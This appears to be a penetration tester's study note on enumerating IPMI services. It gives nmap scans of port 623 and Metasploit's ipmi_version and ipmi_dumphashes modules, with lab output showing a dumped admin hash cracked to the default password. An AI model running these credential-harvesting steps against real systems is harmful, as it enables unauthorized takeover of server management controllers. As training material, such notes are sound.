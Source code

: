 ```yaml
---
id: Enumeration
aliases: []
tags:
  - Networking/Services/IPMI/Enumeration
---
```


# Enumeration

## Checklist

- [ ] [[Enumeration#Nmap|Nmap]]
    - [ ] [[Enumeration#Network Scan|Network Scan]]
    - [ ] [[Enumeration#Service Enumeration|Service Enumeration]]
- [ ] [[Enumeration#Metasploit|Metasploit]]
    - [ ] [[Enumeration#Version Scan|Version Scan]]
    - [ ] [[Enumeration#Dump Hashes|Dump Hashes]]

<!-- Nmap {{{-->
## Nmap

### Network Scan

Scan the network for port TCP/UDP `623`

```sh
nmap -n -p 623 10.0.0./24
```

```sh
nmap -n -sU -p 623 10.0.0./24
```

<!-- Info {{{-->
> [!info]-
>
> - `-n`: Desable DNS resolution
> - `-p 623`: Scan port `623`
> - `-sU`: Scan UDP port
<!-- }}} -->

### Service Enumeration

Footprint the service with the `ipmi-version`
[[Nmap Scripting Engine|NSE]] script

```sh
sudo nmap -sU --script ipmi-version -p 623 <target_domain>
```

<!-- Example {{{-->
> [!example]-
>
> ```sh
> sudo nmap -sU --script ipmi-version -p 623 ilo.inlanfreight.local
> ```
> ```sh
> Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-04 21:48 GMT
> Nmap scan report for ilo.inlanfreight.local (172.16.2.2)
> Host is up (0.00064s latency).
>
> PORT    STATE SERVICE
> 623/udp open  asf-rmcp
> | ipmi-version:
> |   Version:
> |     IPMI-2.0
> |   UserAuth:
> |   PassAuth: auth_user, non_null_user
> |_  Level: 2.0
> MAC Address: 14:03:DC:674:18:6A (Hewlett Packard Enterprise)
>
> Nmap done: 1 IP address (1 host up) scanned in 0.46 seconds
> ```
>
> - [[General|IPMI]] version 2.0 is listening on port `623`/UDP
>
<!-- }}} -->

<!-- }}} -->

<!-- Metasploit {{{-->
## Metasploit

<!-- Version Scan {{{-->
### Version Scan

[IPMI Information Discovery](https://www.rapid7.com/db/modules/auxiliary/scanner/ipmi/ipmi_version/)
can be used to discover host information through IPMI Cheannel Auth probes

```sh
msf6 > use auxiliary/scanner/ipmi/ipmi_version
```

<!-- Example {{{-->
> [!example]-
>
> 1. [[Metasploit#Select Exploit|Select scanner]]
>
> ```sh
> msf6 > use auxiliary/scanner/ipmi/ipmi_version
> ```
>
> 2. [[Metasploit#Set Options|Select options]]
>
> ```sh
> msf6 auxiliary(scanner/ipmi/ipmi_version) > set rhosts 10.129.42.195
> ```
>
> 3. [[Metasploit#Show Options|Show options]]
>
> ```sh
> msf6 auxiliary(scanner/ipmi/ipmi_version) > show options
> ```
>
> ```sh
> Module options (auxiliary/scanner/ipmi/ipmi_version):
>
>    Name       Current Setting  Required  Description
>    ----       ---------------  --------  -----------
>    BATCHSIZE  256              yes       The number of hosts to probe in each set
>    RHOSTS     10.129.42.195    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
>    RPORT      623              yes       The target port (UDP)
>    THREADS    10               yes       The number of concurrent threads
> ```
>
> 4. [[Metasploit#Run Exploit|Run the scan]]
>
> ```sh
> msf6 auxiliary(scanner/ipmi/ipmi_version) > run
> ```
>
> ```sh
> [*] Sending IPMI requests to 10.129.42.195->10.129.42.195 (1 hosts)
> [+] 10.129.42.195:623 - IPMI - IPMI-2.0 UserAuth(auth_msg, auth_user, non_null_user) PassAuth(password, md5, md2, null) Level(1.5, 2.0) 
> [*] Scanned 1 of 1 hosts (100% complete)
> [*] Auxiliary module execution completed
> ```
<!-- }}} -->

<!-- }}} -->

<!-- Dump Hashes {{{-->
### Dump Hashes

Retrieve [[General|IPMI]] hashes with the Metasploit
[IPMI 2.0 RAKP Remote SHA1 Password Hash Retrieval](https://www.rapid7.com/db/modules/auxiliary/scanner/ipmi/ipmi_dumphashes/)
module

```sh
msf6 > use auxiliary/scanner/ipmi/ipmi_dumphashes
```

<!-- Example {{{-->
> [!example]-
>
> 1. [[Metasploit#Select Exploit|Select scanner]]
>
> ```sh
> msf6 > use auxiliary/scanner/ipmi/ipmi_dumphashes
> ```
>
> 2. [[Metasploit#Set Options|Select options]]
>
> ```sh
> msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set rhosts 10.129.42.195
> ```
>
> 3. [[Metasploit#Show Options|Show options]]
>
> ```sh
> msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > show options
> ```
>
> ```sh
> Module options (auxiliary/scanner/ipmi/ipmi_dumphashes):
> 
>    Name                 Current Setting                                                    Required  Description
>    ----                 ---------------                                                    --------  -----------
>    CRACK_COMMON         true                                                               yes       Automatically crack common passwords as they are obtained
>    OUTPUT_HASHCAT_FILE                                                                     no        Save captured password hashes in hashcat format
>    OUTPUT_JOHN_FILE                                                                        no        Save captured password hashes in john the ripper format
>    PASS_FILE            /usr/share/metasploit-framework/data/wordlists/ipmi_passwords.txt  yes       File containing common passwords for offline cracking, one per line
>    RHOSTS               10.129.42.195                                                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
>    RPORT                623                                                                yes       The target port
>    THREADS              1                                                                  yes       The number of concurrent threads (max one per host)
>    USER_FILE            /usr/share/metasploit-framework/data/wordlists/ipmi_users.txt      yes       File containing usernames, one per line
> ```
>
> 4. [[Metasploit#Run Exploit|Run the scan]]
>
> ```sh
> msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run
> ```
> ```sh
> [+] 10.129.42.195:623 - IPMI - Hash found: ADMIN:8e160d4802040000205ee9253b6b8dac3052c837e23faa631260719fce740d45c3139a7dd4317b9ea123456789abcdefa123456789abcdef140541444d494e:a3e82878a09daa8ae3e6c22f9080f8337fe0ed7e
> [+] 10.129.42.195:623 - IPMI - Hash for user 'ADMIN' matches password 'ADMIN'
> [*] Scanned 1 of 1 hosts (100% complete)
> [*] Auxiliary module execution completed
>
> This flaw is a critical component of the [[General|IPMI]] specification
> ```
<!-- }}} -->

<!-- }}} -->

<!-- }}} -->
